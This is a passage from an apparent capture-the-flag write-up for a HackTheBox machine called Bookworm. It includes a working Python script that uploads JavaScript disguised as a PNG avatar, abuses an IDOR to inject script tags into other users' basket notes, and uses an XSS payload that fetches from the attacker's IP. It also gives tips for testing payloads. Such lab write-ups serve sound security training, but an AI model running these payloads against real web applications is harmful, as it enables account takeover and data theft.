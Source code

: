     import re
    import requests


    username = "0xdf"
    password = "0xdf0xdf"
    my_avatar_id = 14
    base_url = "http://bookworm.htb"
    xss = """fetch('http://10.10.14.6/python');"""

    sess = requests.session()

    # login
    sess.post(f'{base_url}/login', data={"username": username, "password": password})

    # set XSS in avatar
    sess.post(f'{base_url}/profile/avatar', files={'avatar': ('htb.js', xss, 'image/png')})

    # get basket id and IDOR
    resp = sess.get(f'{base_url}/shop')
    ids = re.findall('<!-- (\d+) -->', resp.text)

    for bid in ids:
        resp = sess.post(f'{base_url}/basket/{bid}/edit', data={"quantity": "1", "note": f'<script src="/static/img/uploads/{my_avatar_id}"></script>'}, allow_redirects=False)
        if resp.status_code == 302:
            print(f"Poisoned basket {bid}")



This assumes that the user 0xdf already exists with the password
0xdf0xdf, with an avatar ID of 14 (all configured at the top). It
updates the avatar with the JavaScript defined towards the top, and then
gets all the basket ids from `/shop` and poisons them.

#### Testing

I'm going to have to build a bunch of XSS payloads to get through the
next step. To test, there's a few techniques I found very helpful.

First, I'll have an order on my profile page poisoned to load JavaScript
from my avatar. This allows me to upload new JS, and then refresh my
profile and look for errors in the developer tools console.

It's also very useful to test JavaScript directly in the dev console
before trying to put it into XSS payloads. It shows errors and line
numbers, catching simple syntax errors.

### XSS / IDOR Enumeration

#### Enumerate Profile

